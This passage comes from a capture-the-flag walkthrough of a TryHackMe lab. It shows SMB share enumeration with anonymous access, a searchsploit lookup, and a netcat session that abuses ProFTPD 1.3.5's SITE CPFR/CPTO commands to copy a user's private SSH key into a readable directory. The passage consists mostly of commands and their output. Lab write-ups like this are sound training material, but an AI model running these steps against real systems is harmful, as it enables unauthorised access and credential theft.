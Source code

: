 ```
|     Current user access: READ/WRITE
|   \\10.10.216.38\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 36.67 second
```

The one that catched my eye was the `//10.10.216.38/anonymous` share and after typing enter it let me in which, to my surprise, had a file there. Quickly I fetched it into my local directory.

```
$ smbclient //10.10.216.38/anonymous
Enter WORKGROUP\diracspace's password: [ENTER]
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Sep  4 03:49:09 2019
  ..                                  D        0  Wed Sep  4 03:56:07 2019
  log.txt                             N    12237  Wed Sep  4 03:49:09 2019

		9204224 blocks of size 1024. 6875212 blocks available
smb: \> get log.txt
getting file \log.txt of size 12237 as log.txt (13.5 KiloBytes/sec) (average 13.5 KiloBytes/sec)
smb: \> exit
```

The next thing I tried was [Enum4Linux](https://github.com/CiscoCXSecurity/enum4linux). So, I started scanning but in the end it gave me the same info I had already found. Following the instructions at TryHackMe, I used `searchsploit` and found a few entries for the `ProFTPD 1.3.5` software. So, using `Netcat` I got inside and used the module that searchsploit mentioned to move user Kenobi's SSH key that we know is in his home directory. Since the FTP server is running as him, we are able to view the files without super user privileges.

```
$ nc 10.10.68.51 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.68.51]
SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Then, we nead to get access to the `/var/tmp` directory to fetch the SSH key. What we need to do is mount the `/var` directory to an internal folder, like so

```
$ mkdir nfs && cd nfs
$ ls -la
total 52
drwxr-xr-x 14 root       root       4096 Sep  4  2019 .
drwxr-xr-x  1 diracspace diracspace  184 Nov 25 19:57 ..
drwxr-xr-x  2 root       root       4096 Sep  4  2019 backups
drwxr-xr-x  9 root       root       4096 Sep  4  2019 cache
drwxrwxrwt  2 root       root       4096 Sep  4  2019 crash
drwxr-xr-x 40 root       root       4096 Sep  4  2019 lib
drwxrwsr-x  2 root       staff      4096 Apr 12  2016 local
lrwxrwxrwx  1 root       root          9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root       crontab    4096 Sep  4  2019 log
drwxrwsr-x  2 root       mail       4096 Feb 26  2019 mail
drwxr-xr-x  2 root       root       4096 Feb 26  2019 opt
lrwxrwxrwx  1 root       root          4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root       root       4096 Jan 29  2019 snap
```